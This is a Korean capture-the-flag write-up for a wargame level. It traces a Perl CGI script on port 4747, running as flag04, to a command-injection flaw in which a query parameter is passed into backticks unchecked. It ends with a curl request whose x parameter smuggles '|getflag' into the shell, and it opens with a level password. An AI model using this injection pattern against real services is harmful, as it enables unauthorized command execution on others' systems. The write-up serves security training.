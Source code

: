 > Password: qi0maab88jeaj46qoumi7maus

# 접근 방법

홈 디렉토리에 `level04.pl` 파일이 있다.
```
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
[...]
```
하지만 CGI 형태로 동작하게 되어 있기 때문에, 직접 pl을 실행하기는 어려워 보인다. 하지만 주석에 `localhost:4747` 이라는 내용이 있는 것으로, 현재 4747번 포트에서 해당 파일을 서빙하고 있을지 모른다는 힌트를 얻을 수 있다.

```
$ netstat -antp tcp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
[...]
tcp6       0      0 :::4747                 :::*                    LISTEN      -
[...]
```
실제로 4747번 포트에서 서빙중인 것을 확인할 수 있다.

```
$ curl -v localhost:4747
* About to connect() to localhost port 4747 (#0)
*   Trying 127.0.0.1... connected
> GET / HTTP/1.1
> User-Agent: curl/7.22.0 (i686-pc-linux-gnu) libcurl/7.22.0 OpenSSL/1.0.1 zlib/1.2.3.4 libidn/1.23 librtmp/2.3
> Host: localhost:4747
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Thu, 27 Oct 2022 18:13:12 GMT
< Server: Apache/2.2.22 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 1
< Content-Type: text/html
<

* Connection #0 to host localhost left intact
* Closing connection #0
```

이후, `curl` 명령으로 해당 포트에 연결을 시도해보면 HTTP응답이 오는 것을 확인할 수 있다. 그리고 응답 헤더 중 `Server` 필드의 내용을 통해서 `Apache/2.2.22`로 서빙되고 있음을 알 수 있다.

따라서 현재 서버의 apache2 설정을 확인해본다.

```
$ cd /etc/apache2/sites-enabled/
$ ls
000-default  level05.conf  level12.conf
$ cat level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

apache2의 설정을 확인해보면, `/var/www/level04/level04.pl` 경로의 파일을 인덱스로 해서 서빙하고 있다. 그리고, `+ExecCGI` 옵션을 통해 CGI실행을 하고 있음 및 `SuexecUserGroup` 설정을 통해 `flag04` 권한으로 실행됨을 확인할 수 있다.

```
$ cat /var/www/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
[...]
```

해당 경로의 `level04.pl` 역시, 홈 디렉토리의 그것과 완전히 동일한 내용임을 확인했다.

이제 `level04.pl` 파일의 내용을 분석해보자.

```perl
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

쿼리 파라미터 `x`를 받아서 그 내용을 특별한 확인 없이 \`\`(backtick)에 그대로 넣는 것을 볼 수 있는데, `perl`의 백틱은 그 내용을 쉘에 넣어서 실행(Evaluate)하는 문법이다. 따라서 `x`의 값으로 `|getflag`과 같은 내용을 넣음으로써 임의의 명령어를 실행하는 방식을 통해, `flag04`의 권한으로 실행된 `getflag`를 통해 원하는 `token`을 얻을 수 있다.

```bash
> curl localhost:4747?x='|getflag'
```